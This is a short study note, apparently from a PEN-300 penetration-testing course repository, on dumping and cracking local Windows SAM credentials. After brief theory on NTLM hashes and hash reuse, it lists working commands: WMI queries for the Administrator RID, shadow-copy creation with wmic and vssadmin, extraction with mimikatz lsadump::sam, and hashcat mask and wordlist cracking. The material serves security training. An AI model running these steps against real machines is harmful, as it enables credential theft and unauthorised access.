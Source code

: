 ## PEN-300



##### SAM credentials

***theory***: 

Local Windows credentials are stored in the Security Account Manager (SAM) database as password hashes using the NTLM hashing format, which is based on the MD4 algorithm.

We can reuse acquired NTLM hashes to authenticate to a different machine, as long as the hash is tied to a user account and password registered on that machine.

Although it is rare to find matching local credentials between disparate machines, the built-in default-named Administrator account is installed on all Windows-based machines.  


***Attack***:  

To get local client workstation name and administrator RID.  Follow commands below
```plaintext
$env:computername
[wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
```
<br>

<img width="857" height="343" alt="image" src="https://github.com/user-attachments/assets/1f7e1521-032f-4e7a-92f6-0f1827ae132d" />



1) Create shadow copy:          wmic shadowcopy call create Volume='C:\'
2) Locate Shadow copy:          vssadmin list shadows
3) Copy SYSTEM / SAM off of host  
4) mimikatz lsadump::sam /system:systemfile /sam:samfile  
5) Hashcat the password:  

**Mask attack** ./hashcat64.bin -m 1000 -a 3 -w 3 -O hash.txt -1 ?l?d ?1?1?1?1?1?1?1?1?1 -i --increment-min=5
**Password List** .\hashcat.exe -m 1000 -a 0 -w 3 -O hash.txt password_list.txt



